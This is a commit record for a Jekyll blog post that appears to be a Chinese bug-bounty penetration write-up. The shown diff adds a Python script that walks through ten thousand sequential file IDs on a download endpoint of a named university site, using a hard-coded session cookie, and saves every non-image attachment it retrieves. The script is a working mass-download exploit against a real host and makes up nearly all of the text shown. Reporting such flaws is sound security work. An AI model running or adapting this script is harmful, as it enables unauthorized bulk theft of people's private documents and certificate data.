

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-14-SRC实战-非典型渗透-某教育资产证书+通杀.md, in a window 1280 px wide and 1400 px high, scrolled down 352 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-06-14-SRC实战-非典型渗透-某教育资产证书+通杀.md

````diff
--- a/_posts/2023-06-14-SRC实战-非典型渗透-某教育资产证书+通杀.md
+++ b/_posts/2023-06-14-SRC实战-非典型渗透-某教育资产证书+通杀.md
@@ -23,6 +23,48 @@ https://xxx.edu.cn/system/_content/download.jsp?urltype=news.DownloadAttachUrl&o
 
 ```python
 
+import xlrd
+import requests
+import os
+import time
 
+get_header = {
+	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0",
+	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
+	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
+    "Cookie": "JSESSIONID=8097F0843DC79A07FB6298A38BFCE3C1"
+}
 
+prev = 185571
+last = 195571
+
+URL = "https://jxjy.cdtu.edu.cn/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid="
+
+def save(filename, content, nums):
+    filename2 = f'''{nums}----''' + filename
+    with open(filename2,'wb') as file:
+        file.write(content)
+
+for i in range(prev, last):
+    try:
+        print(i)
+        url = URL + str(i)
+        response = None
+        while True:
+            try:
+                response = requests.get(url = url,headers = get_header, timeout = 20)
+                break
+            except:
+                print('error:timeout retrying')
+                pass
+        filename = response.headers['Content-disposition'].split('filename=')[1].split(';')[0]
+        back = filename.split('.')[-1]
+
+        print(back)
+        if 'jpg' not in filename and 'JPG' not in filename and 'png' not in filename and 'PNG' not in filename:
+            save(filename, response.content, i)
+
+        time.sleep(0.1)
+    except:
+        print('error')
 ```
````
